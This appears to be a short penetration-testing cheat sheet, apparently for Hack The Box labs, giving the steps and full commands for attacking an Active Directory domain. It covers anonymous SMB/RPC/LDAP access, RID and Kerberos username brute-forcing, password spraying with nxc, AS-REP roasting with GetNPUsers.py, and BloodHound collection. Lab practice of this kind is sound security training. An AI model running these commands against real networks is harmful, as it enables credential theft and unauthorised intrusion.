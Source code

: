 *Forest* is the parent of a collection of machines that has the same hierarchy.

1. `krbconf [DOMAIN] [DC_NETBIOS_NAME]`           → [Add Multiple Domains](https://mayfly277.github.io/posts/GOADv2-pwning_part1/)

2. Through anonymous or guest authentication, try to get access to

   - SMB

   - RPC

   - LDAP

3. Get a list of valid usernames:

   - `--users` in nxc for SMB and LDAP while authenticating

   - manually for RPC with `enumdomusers` and `querydispinfo`

   - rid-bruting over SMB

     ```bash
     nxc smb <IP> -u "" -p "" --rid-brute 10000
     ```

   - Kerberos brute-forcing over ldap

     - Generate users: `usergen() [FULL_NAMES.txt]` 

       Wordlists:[Statistically Likely](https://github.com/insidetrust/statistically-likely-usernames) / Seclists Xato-Net + `Names.txt`

     - ```bash
       kerbrute userenum -d [DOMAIN] [USERS.txt] --dc [DC_IP]
       ```

4. Password spraying

   - Get password policy
     - smb: `nxc --pass-pol`
     - rpc `getdompwinfo`
   - nxc:
     - use `--continue-on-success` 
     - `--no-bruteforce` to try user user
     - test on all services

   

5. Get a session in WinRM

6. If you cannot, Kerberos Roasting: steal an hash

   ```bash
   GetNPUsers.py htb.local/ -usersfile user.txt -request -dc-ip 10.10.10.161 
   ```

7. Dump and analyze the database

   ```bash
   neostart   # Open a Neo4J server
   bloodhound # Open the bloodhound GUI 
   bloodhound-python -u user -p pass -ns dc_ip --domain domain -c All --zip --dns-tcp
   ```
